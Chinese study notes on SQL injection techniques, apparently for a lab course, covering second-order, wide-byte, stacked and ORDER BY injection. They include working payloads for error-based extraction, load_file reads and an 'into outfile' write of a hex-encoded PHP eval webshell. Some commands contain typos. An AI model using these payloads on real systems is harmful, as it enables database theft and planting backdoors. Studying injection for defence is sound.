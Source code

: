 ```mysql
增：insert into users values('16','aasd','asd');creat table users1;
删数据：delete from 表名; delete from 表名 where id=1; 
删数据库：drop database 数据库名;
删表：drop table 表名;
删表中列：alter talbe 表名 drop column 列名;
查:select load_file('c:/xx.php');select * from 表名 limit 1,1;
```

**二次注入**(参考page2-24)

```
1. 构造数据，像服务器发送恶意请求
2. 服务器保存
3. 向服务端发送与第一次不相同请求
4. 服务收到请求查询时，导致第一次恶意请求被执行
```

**宽字节注入**(参考page2-23)

```php
GBK编码会将两个字符为一个汉字，在'被过滤时候，可以在前面加一个%df，从而吃掉后面的\，达到'逃逸的效果
将\过滤，构造%**%5c%5c%27，5c会被注释掉

check_addslashes() ,遇到单引号和双引号还有反斜杠会自动添加反斜杠
addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
stripslashes()，删除由addslashes()添加的反斜杠
mysql_real_escape_string() ,转义字符串中特殊字符  \x00 \n \r \ " ' \x1a
```

**堆叠注入**(参考page3-43)

```mysql
堆叠注入可以执行任意语句，而union all 语句类型有限
堆叠注入是一致性执行多个语句，分号区别开；而二次注入是注入恶意语句后再调用
```

**order by**(参考page3-48)

```mysql
order by 用作排序，后面可以用123代替列名，也可以直接写列名，默认小到大
1.1 直接添加注入语句 ?sort=(select ***)
1.2 利用一些函数，如 ?sort=rand()
1.3 利用and加sql语句，?sort and  ，后面接报错注入(extractvalue)或延时(ascii)
2. procedure analyse参数后注入  
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1) //version换(sql)
3. 导入导出文件into outfile参数
?sort=1 into outfile "c:\\wamp\\www\\sqllib\\test
Into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行 16 进制转
换)
0x3c3f70687020706870696e666f28293b3f3e2020  phpinfo
0x3C3F70687020406576616C28245F504F53545B2778275D293B3F3E  post['x']
```





**Page-1  基本注入**
